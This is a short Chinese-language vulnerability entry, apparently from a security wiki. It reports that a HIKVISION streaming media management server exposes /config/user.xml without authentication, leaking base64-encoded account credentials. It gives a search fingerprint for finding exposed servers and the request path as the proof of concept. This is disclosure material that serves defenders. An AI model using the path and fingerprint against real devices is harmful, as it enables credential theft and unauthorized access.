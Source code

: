 # HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"杭州海康威视系统技术有限公司 版权所有"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628165281195-23ed2181-1200-4dad-bf4a-047e382c34f4.png)

验证POC

```plain
/config/user.xml
```

![img](/assets/PeiQi-Wiki/img/1628165582265-eddb47a5-1100-40bf-9d92-4d9e9aad3dc0.png)

图中账号密码为base64加密